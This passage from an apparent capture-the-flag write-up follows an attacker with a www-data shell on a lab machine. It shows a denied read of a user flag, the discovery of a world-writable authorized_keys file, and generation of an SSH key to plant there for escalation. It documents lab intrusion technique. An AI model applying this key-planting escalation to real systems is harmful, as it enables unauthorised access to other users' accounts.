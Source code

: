 ```
style.css
supersecretadminpanel.html
supersecretmessageforadmin
users.html

```

And we search for the flag :

```
www-data@ip-10-10-8-70:/var/www/html$ cd /home/
cd /home/
www-data@ip-10-10-8-70:/home$ ls
ls
comte
ubuntu
www-data@ip-10-10-8-70:/home$ cd comte
cd comte
www-data@ip-10-10-8-70:/home/comte$ ls
ls
snap
user.txt
www-data@ip-10-10-8-70:/home/comte$ cat user.txt
cat user.txt
cat: user.txt: Permission denied

```

So we have to escalate permissions.

If we go to /home/comte/.ssh and we check for permission we can read an write authorised_keys (<span style="color: rgb(224, 62, 45);">UNREALISTIC</span>) :

```
www-data@ip-10-10-8-70:/home/comte/.ssh$ ls -la
ls -la
total 8
drwxr-xr-x 2 comte comte 4096 Mar 25  2024 .
drwxr-xr-x 7 comte comte 4096 Apr  4  2024 ..
-rw-rw-rw- 1 comte comte    0 Mar 25  2024 authorized_keys

```

## SSH KeyGen

We can use [SSH-KeyGen](../../3%20-%20Tags/Hacking%20Tools/SSH-KeyGen.md) to generate a key (skip everything with enter and go) :

```
─$ ssh-keygen            
Generating public/private ed25519 key pair.
Enter file in which to save the key (/home/mdn0x/.ssh/id_ed25519): 
Enter passphrase for "/home/mdn0x/.ssh/id_ed25519" (empty for no passphrase): 
Enter same passphrase again: 
Your identification has been saved in /home/mdn0x/.ssh/id_ed25519
Your public key has been saved in /home/mdn0x/.ssh/id_ed25519.pub
The key fingerprint is:
SHA256:hEr0UZgozVxEGCxB7tgK2SrIhLr1f8N+NCFlFAGprfU mdn0x@mdn0xonKali
The key's randomart image is:
+--[ED25519 256]--+
| .o*oB=+o++o     |
| .o.B.oo. o      |
|  .o. oo.o       |
|.* . ...+ .      |
|=.+ .  oSo .     |
|*o    .   E      |
```